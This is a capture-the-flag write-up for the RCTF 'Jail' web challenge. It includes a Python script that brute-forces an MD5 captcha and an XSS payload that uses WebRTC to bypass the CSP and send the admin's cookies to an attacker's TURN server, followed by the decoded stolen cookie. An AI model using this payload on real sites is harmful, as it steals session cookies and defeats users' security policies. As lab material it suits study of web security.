

## Jail (476 pts) (Web)



We are given access to a guestbook where we can leave messages and a feedback section where we can ask the admin to take a look at our post. However the feedback form is protected with a captcha `substr(md5(captcha), 0, 6) == "123456"`, where, according to the hint the captcha is a number between 1 and 10000000. This small python script solves that:

```python
import hashlib

target = 'fb0bd2'
candidate = 0
for candidate in range(0,10000000):
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1
```

We also notice two cookies, `hint1=flag1_is_in_cookie` and `hint2=meta_refresh_is_banned_in_server`. So presumably we must leak some cookie that the admin has when viewing our post. Sadly the CSP disallows every type of external connection. After a while I stumbled upon [a Github issue titled "WebRTC bypass CSP connect-src policies"](https://github.com/w3c/webrtc-pc/issues/1727). After that it was a relatively easy (but quite frustrating) endeavour to start a CoTURN server and craft a script that would send the cookies as username to that server.

```javascript
<script>function gotDescription(desc) {
    begin=window.performance.now();
    candidates=[];
    pc.setLocalDescription(desc);
}

function noDescription(error) {
    console.log('Error creating offer: ', error);
}

var pc=new RTCPeerConnection( {
    "iceServers":[ {
        "urls": ["turn:my.server.ip:3478"], "username": btoa(document.cookie), "credential": "password1"
    }
    ], "iceTransportPolicy":"all", "iceCandidatePoolSize":"0"
}

);
pc.createOffer( {
    offerToReceiveAudio: 1
}

).then( gotDescription, noDescription);
</script>
```

Check the log and decode it

```
# ~> echo ZmxhZz1SQ1RGe3dlbGMwbWVfdDBfdGhlX2NoYW9zX3cwcjFkfTsgUEhQU0VTU0lEPTExYmYwNzNjZWQwN2JlNzVlN2JlODA0MGUzNGRiZmUxOyBoaW50MT1mbGFnMV9pc19pbl9jb29raWU7IGhpbnQyPW1ldGFfcmVmcmVzaF9pc19iYW5uZWRfaW5fc2VydmVy|base64 -d
# flag=RCTF{welc0me_t0_the_chaos_w0r1d}; PHPSESSID=11bf073ced07be75e7be8040e34dbfe1; hint1=flag1_is_in_cookie; hint2=meta_refresh_is_banned_in_server⏎      
```

`RCTF{welc0me_t0_the_chaos_w0r1d}`